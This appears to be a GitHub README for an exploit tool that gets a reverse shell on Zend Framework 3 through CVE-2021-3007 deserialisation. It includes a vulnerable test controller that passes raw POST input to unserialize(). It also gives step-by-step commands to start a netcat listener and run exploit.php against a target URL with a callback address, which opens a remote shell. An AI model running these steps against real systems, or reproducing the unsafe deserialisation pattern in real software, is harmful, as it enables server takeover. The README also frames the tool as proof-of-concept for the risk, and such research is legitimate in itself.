 # Pickled Zend
Quick note: I wrote this exploit back in 2021 because I was essentially in dispute with someone who claimed it wasn't a risk because there were no genuine exploits for it
Zend Framework 3 deserialisation reverse shell based on CVE-2021-3007 and Ling-Yizhous PoC at https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

## Test Environment
Assuming that your server has bash installed:
composer create-project zendframework/skeleton-application

Update module/Application/src/Controller/IndexController.php to something like this:

```php
<?php
/**
 * @link      http://github.com/zendframework/ZendSkeletonApplication for the canonical source repository
 * @copyright Copyright (c) 2005-2016 Zend Technologies USA Inc. (http://www.zend.com)
 * @license   http://framework.zend.com/license/new-bsd New BSD License
 */

// curl -X POST <your url> -d 'user=O:4:"User":1:{s:4:"name";s:3:"asd";}'

namespace{

  class User{
    public $name;
  }
}

namespace Application\Controller{

  use Zend\Mvc\Controller\AbstractActionController;
  use Zend\View\Model\ViewModel;

  class IndexController extends AbstractActionController
  {
      public function indexAction()
          $user=unserialize($this->params()->fromPost('user'));
          die("hello {$user->name}");
          return new ViewModel();
      }
   }
}
```
You can test it by running the curl commented in the code fragment above and you will get the message "hello asd".

## Exploitation
* Set up a netcat listener(e.g. nc -vlp 8888)
* Run exploit.php with the following command line:
```bash
./exploit.php http://url.to.attack netcat-ip-address  netcat-port post-parameter-to-attack 
```
E.G. With the demo running on localhost (where the post parameter is user)
```sh
./exploit.php http://localhost:8080 127.0.0.1 8888 user
```
